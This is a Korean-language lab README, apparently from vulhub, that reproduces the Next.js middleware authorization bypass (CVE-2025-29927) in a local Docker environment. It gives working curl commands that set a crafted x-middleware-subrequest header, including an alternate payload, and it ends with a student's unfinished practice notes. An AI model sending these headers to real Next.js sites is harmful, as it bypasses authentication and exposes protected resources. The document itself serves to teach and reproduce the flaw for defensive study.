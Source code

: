 # Next.js 미들웨어 인가 우회 (CVE-2025-29927)

> 화이트햇 스쿨 3기 - [김민수 (@idealinsane)](https://github.com/idealinsane)

[영어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.md)
[중국어 버전(Chinese version)](https://github.com/vulhub/vulhub/tree/master/next.js/CVE-2025-29927/README.zh-cn.md)

Next.js는 서버 사이드 렌더링 (Server-Side Rendering), 정적 사이트 생성 (Static Site Generation), 통합 라우팅 시스템 (Integrated Routing System) 등의 기능을 제공하는 인기 있는 React 기반 웹 애플리케이션 프레임워크입니다.
인증 (Authentication) 및 인가 (Authorization) 목적으로 **미들웨어 (Middleware)** 를 사용하도록 구성된 경우, 버전 14.2.25 이전 및 15.2.3 이전에서는 인가 우회 (Authorization Bypass) 취약점이 존재합니다.

이 취약점은 공격자가 `x-middleware-subrequest` 헤더를 조작하여 미들웨어 기반 보안 제어를 우회함으로써 보호된 자원과 민감한 데이터에 무단 접근할 수 있게 만듭니다.

**참고 자료 (References):**

- <https://github.com/advisories/GHSA-f82v-jwr5-mffw>
- <https://zhero-web-sec.github.io/research-and-things/nextjs-and-the-corrupt-middleware>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-29927>

<br/>

### 환경 설정 (Environment Setup)

다음 명령어를 실행하여 Next.js 15.2.2 기반의 취약한 애플리케이션을 시작합니다:

```
docker compose up -d
```

애플리케이션이 시작되면, `http://your-ip:3000` 주소를 방문할 때 로그인 페이지로 리디렉션됩니다. 기본 자격 증명인 `admin:password`를 입력하여 로그인하고 대시보드에 접근할 수 있습니다.

<br/>

### 취약점 재현 (Vulnerability Reproduction)

유효한 자격 증명 없이 대시보드에 직접 접근하려고 하면, 로그인 페이지로 리디렉션됩니다:

```bash
curl -i http://your-ip:3000
```

![](1.png)
취약점을 악용하려면, 요청에 `x-middleware-subrequest` 헤더를 추가하고 값으로 `middleware:middleware:middleware:middleware:middleware`를 설정합니다. 이로 인해 Next.js 미들웨어가 해당 헤더를 잘못 처리하여 인증 검사를 우회하게 됩니다:

```
curl -i -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" http://your-ip:3000
```

![](2.png)

보시다시피, 대시보드에 인증 없이 접근이 가능합니다.

> 만약 이전 페이로드가 작동하지 않을 경우, `x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware` 헤더를 시도할 수도 있습니다.

## 실습 결과 (yeojin-206)
###정상요청
```bash
curl -i http://localhost:3000/admin
#307 Temporary Redirect

curl -i http://localhost:3000/%2fadmin 
307 Temporary Redirect
```
###비정상요청
